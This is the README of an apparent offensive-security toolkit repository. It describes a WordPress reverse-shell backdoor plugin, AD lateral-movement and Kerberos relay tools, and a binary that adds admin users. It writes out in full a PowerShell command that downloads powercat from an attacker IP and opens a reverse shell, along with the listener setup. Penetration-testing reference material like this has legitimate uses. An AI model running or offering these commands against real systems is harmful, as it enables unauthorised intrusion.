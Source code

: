 <pre>
offensive
---------
Tips and tricks etc. for offensive security and testing

BackdoorPlug.php
|
'-->  A WordPres plugin containing reverse shell. 
      Prerequirements: you need access to the WP to upload and activate plugins.
      Just change the host/port to whatever your listener is running on and maybe adjust the shell accordingly too, then just zip 
      it, upload the zip as a plugin and activate the plugin to get connected with the WP-instance.

checklist
|
'-->  A very basic list of pentest steps.

config.Library-ms
|
'-->  A config library file to open a connection to the address defined in the simple location url, which for example serves 
      malicious Windows shortcut to execute some nasty powershell like:
        powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.12.34:9090/powercat.ps1'); powercat 
        -c 192.168.12.34 -p 4000 -e powershell"
      Here you should have the following: 
        - wsgidav (WebDAV: wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/username/webdav/) server running, 
          serving the Windows shortcut file, which runs the command above
        - a Python httpd (python -m http.server 9090) serving the powercat.ps1
        - a netcat listener (nc -nvlp 4000) or similar to catch the resulting reverse shell.

dorks.google
|
'-->  Some random Google dorks to leverage while enriching your case data

enumhelper.ps1
|
'-->  A helper script for AD enumeration and lateral movement. Built on-the-go so might contain a lot of logical fallacies and 
      missing lots of error checks.
      Check the help section before running: .\enumhelper.ps1 "help" for somewhat of instructions.
      Can do: 
        - LDAP queries
        - User/pass testing over LDAP-query
        - List all properties of LDAP response object
        - Get the value of a specific LDAP property
        - Get all SPNs and related objects
        - Check if any SPNs are tied to a (service)account
        - Get DC info: name, hostname, OS, OS version, IPv4 and IPv6
        - Get AD device info: name, hostname, OS, OS SP, OS version, IPv4 and IPv6
        - Get AD user/group info by SID (converting a SID to a name for example)
        - Create PsExec.exe or PsExec64.exe
        - SID lookup from AD
        - DCOM lateral movement leveraging MMC
          - Also the possibility of building a reverse-shell command and initiating it on the target
        - Remote connectiong over PowerShell
        - Remote commands over WMI, WINRS, PsExec or PsExec64:
          - Also the possibility of building a reverse-shell command and initiating it on the target

Get-Shortcut.ps1
|
'-->  Get shortcut (.lnk) info via PowerShell. Just import-module .\Get-Shortcut.ps1 and you can go: Get-Shortcut c:\path\to\link.lnk
      
kerbrute_linux_amd64
|
'-->  An awesome tool for Kerberos bruting from https://github.com/ropnop/kerbrute, here's a pre-built
      64bit Linux binary
      
KrbRelayUp.exe
|
'-->  Kerberos Relay attack binary. 
      Lost my mind trying to get this to build so then just ended up getting a prebuilt one from
      https://kb.offsec.nl/tools/techniques/krbrelayup/, thanks! The source is available at:
      https://github.com/Dec0ne/KrbRelayUp
      
nix-shell-tricks
|
'-->  Common tips and tricks etc. to use in Linux shell when being offensive or otherwise enumerating

php-trickery
|
'-->  Some PHP-tricks for offensive security

reverse_shell.aspx
|
'-->  Not my creation, credit goes to INSOMNIA SECURITY :: InsomniaShell.aspx, 
      brett.moore@insomniasec.com ::  www.insomniasec.com

SeBackupCmdLets.dll
SeBackupUtils.dll
|
'--> Precompiled dlls from https://github.com/giuliano108/SeBackupPrivilege for leveraging 
     SeBackupPrivileged AD account. These are prebuilt x64, if you need other then you
     need to build them yourself from giuliano's source. Otherwise:
            Import-Module .\SeBackupPrivilegeUtils.dll
            Import-Module .\SeBackupPrivilegeCmdLets.dll
            Set-SeBackupPrivilege
            Copy-FileSeBackupPrivilege .\un_accessible_document.pdf c:\temp\now_accessible.pdf -Overwrite

sqli-tips
|
'-->  Tips for SQL injections

winbin.sh
|
'-->  Whip up custom executable/dll on the fly. So far only supports creating a x64 executable/dll for 
      adding a defined user with a defined password to the Administrators group or changing an existing user's password. 
      For example if you need to replace a bin which you have full control over to gain further foothold or to leverage a 
      missing DLL etc.

windows-shell-tricks-and-ad-tips
|
'-->  Common tips and tricks etc. to use with PowerShell / cmd when being offensive or otherwise enumerating and getting to know AD
</pre>
